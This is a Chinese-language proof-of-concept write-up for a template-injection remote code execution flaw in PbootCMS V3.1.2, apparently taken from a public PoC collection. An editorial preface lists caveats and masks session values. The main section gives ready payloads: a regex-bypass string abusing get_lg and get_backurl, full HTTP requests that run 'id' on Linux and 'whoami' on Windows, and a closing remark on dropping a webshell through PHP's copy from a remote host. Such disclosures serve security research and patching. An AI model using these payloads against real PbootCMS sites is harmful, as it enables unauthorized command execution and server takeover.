

## 核对与使用边界

- 凭据处理：本文抓包中的可识别会话/防伪或认证值已仅将中段替换为星号，保留首尾及原长度便于对照；默认公开示例、攻击表达式和其他 Cookie 语义保持原样。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：所给路由将输入反射入模板二次解析，lg=system Cookie控制函数；PHP允许系统调用

- **凭据与会话边界（1）**：顶部Bypass exp缺lg Cookie及完整可触发路由，不是独立PoC。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **适用与权限边界（2）**：Linux/Windows两请求其实用不同路由/表达式，不应暗示只由OS区分；具体配置未给。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（3）**：get_lg/get_backurl辅助函数本身不是根因，缺模板if解析过滤源码/补丁出处。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（4）**：copy远程落地还需allow_url_fopen/出网/可写位置，仅一句不能视完整链。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# PbootCMS V3.1.2 正则绕过 RCE 漏洞

## 漏洞描述

PbootCMS 项目路径下 /common/function.php 中存在两个函数 get_lg 和 get_backurl，可绕过正则处理，进而执行命令。

## 漏洞复现

Bypass exp：

```
?snakin=}{pboot:if((get_lg/*-*/())/**/(get_backurl/*-*/()))}{/pboot:if}&backurl=;id
```

Linux exp：

```
GET /index.php/keyword?keyword=}{pboot:if((get_lg/*aaa-*/())/**/(get_backurl/*aaa-*/()))}123321aaa{/pboot:if}&backurl=;id HTTP/1.1
Host: your-ip
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: your-ip
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=system; PbootSystem=8ea********************6c6
Connection: close
```

Windows exp：

```
GET /?member/login/?a=}{pboot:if((get_lg/*aaa-*/())/**/("whoami"))}{/pboot:if} HTTP/1.1
Host: your-ip
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer:your-ip
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=system; PbootSystem=8ea********************6c6
Connection: close
```

写 `webshell` 时用 `file_put_contents` 写入时有关键字限制：



可使用 `copy` 函数远程落地。


---

> 来源：Threekiii/Awesome-POC
